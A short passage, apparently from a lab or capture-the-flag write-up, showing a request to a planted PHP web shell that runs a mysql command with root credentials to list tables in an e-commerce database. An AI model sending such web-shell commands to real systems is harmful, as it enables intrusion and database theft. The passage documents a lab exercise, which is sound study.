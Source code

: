 ![](../../.gitbook/assets/11-mysql-ecom-tables.png)

`GET /shop/vqmod/xml/cantfindmyshell.php?var=mysql+-u+root+-pchangethis+-v+-e+"show+tables"+ecom HTTP/1.1`

Listed tables in the `ecom` database.

![](../../.gitbook/assets/11-mysql-code-exec%20%281%29.png)
